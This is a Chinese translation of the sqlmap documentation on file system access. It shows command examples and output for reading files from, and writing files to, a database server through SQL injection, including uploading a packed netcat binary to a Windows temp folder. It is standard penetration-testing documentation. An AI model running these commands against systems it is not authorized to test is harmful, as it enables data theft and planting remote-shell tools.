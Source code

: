 # 访问文件系统

> *译自：[File system access](https://github.com/sqlmapproject/sqlmap/wiki/Usage#file-system-access)*

## 读取数据库服务器文件系统文件

选项：`--file-read`

当后端 DBMS（Database Management System，数据库管理系统）为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够直接读取底层文件系统中文件的内容。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 Microsoft SQL Server 2005 为目标，获取二进制文件的例子：

```shell
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

## 向数据库服务器的文件系统上传文件

选项：`--file-write` 和 `--file-dest`

当后端 DBMS 为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够向数据库服务器文件系统上传一个本地文件。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 MySQL 为目标，向服务器提交一个经过 UPX 压缩的二进制文件的例子：

```shell
$ file /software/nc.exe.packed
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```
